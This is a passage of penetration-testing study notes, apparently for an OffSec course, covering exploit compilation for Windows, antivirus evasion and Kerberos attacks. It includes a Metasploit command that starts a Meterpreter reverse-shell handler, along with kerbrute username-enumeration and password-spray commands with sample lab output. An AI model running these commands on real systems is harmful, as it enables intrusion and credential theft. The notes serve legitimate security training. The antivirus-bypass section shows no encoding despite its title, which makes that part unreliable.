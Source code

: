 ### Cross-Compile Exploit Code
`i686-w64-mingw32-gcc 42341.c -o syncbreeze_exploit.exe` – Compile exploit code to Windows executable.
`i686-w64-mingw32-gcc 42341.c -o syncbreeze_exploit.exe -lws2_32` – Compile with Winsock library if needed.0

### AV Bypass with Shellcode Encoding

```bash
sudo apt install wine
sudo dpkg --add-architecture i386 && apt-get update &&
apt-get install wine32
sudo apt install wine

sudo dpkg --add-architecture amd64
sudo  apt install -y qemu-user-static binfmt-support
sudo apt-get update && apt-get install wine32

msfconsole -x "use exploit/multi/handler;set payload windows/meterpreter/reverse_tcp;set LHOST 192.168.50.1;set LPORT 443;run;"
```

![alt text](https://static.offsec.com/offsec-courses/PEN-200/imgs/antivirus_evasion/7c49cd2d7e2afd9639c73a1de9b7765a-antivirus_evasion_06.png)

![alt text](https://static.offsec.com/offsec-courses/PEN-200/imgs/antivirus_evasion/61057955413c0439bd528b59c6a814a1-antivirus_evasion_07.png)

![alt text](https://static.offsec.com/offsec-courses/PEN-200/imgs/antivirus_evasion/f1c4ae36fc63adf510fdc4712a928fc8-antivirus_evasion_08.png)

![alt text](https://static.offsec.com/offsec-courses/PEN-200/imgs/antivirus_evasion/f116295bbacceb3e7ba812feed277d09-antivirus_evasion_09.png)

## Password Attacks & Credential Harvesting
- `exiftool /usr/share/texmf/doc/latex/preview/preview.pdf -Author` - Extract file author
- `./username-anarchy --input-file ./test-names.txt` - Generating usernames (https://github.com/urbanadventurer/username-anarchy)
- Kerberos user enum (https://github.com/ropnop/kerbrute )
  ```bash
  root@kali:~# ./kerbrute_linux_amd64 userenum -d lab.ropnop.com usernames.txt
  
      __             __               __
     / /_____  _____/ /_  _______  __/ /____
    / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
   / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
  /_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/
  
  Version: dev (43f9ca1) - 03/06/19 - Ronnie Flathers @ropnop
  
  2019/03/06 21:28:04 >  Using KDC(s):
  2019/03/06 21:28:04 >   pdc01.lab.ropnop.com:88
  
  2019/03/06 21:28:04 >  [+] VALID USERNAME:       amata@lab.ropnop.com
  2019/03/06 21:28:04 >  [+] VALID USERNAME:       thoffman@lab.ropnop.com
  2019/03/06 21:28:04 >  Done! Tested 1001 usernames (2 valid) in 0.425 seconds
  ```
- Kerberos Password Spray
  ```bash
  root@kali:~# ./kerbrute_linux_amd64 passwordspray -d lab.ropnop.com domain_users.txt Password123

      __             __               __
     / /_____  _____/ /_  _______  __/ /____
    / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
   / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
  /_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/
  
  ```